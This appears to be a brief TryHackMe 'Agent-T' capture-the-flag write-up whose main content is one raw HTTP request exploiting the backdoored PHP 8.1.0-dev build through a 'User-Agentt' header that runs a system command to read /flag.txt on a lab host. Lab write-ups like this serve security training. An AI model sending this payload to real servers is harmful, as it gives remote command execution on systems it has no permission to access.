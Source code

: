 # Agent-T Tryhackme Writeup

1. PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution

```bash
GET / HTTP/1.1
Host: 10.10.31.200
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
User-Agentt: zerodiumsystem('"cat /flag.txt"');
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-IN,en-GB;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```
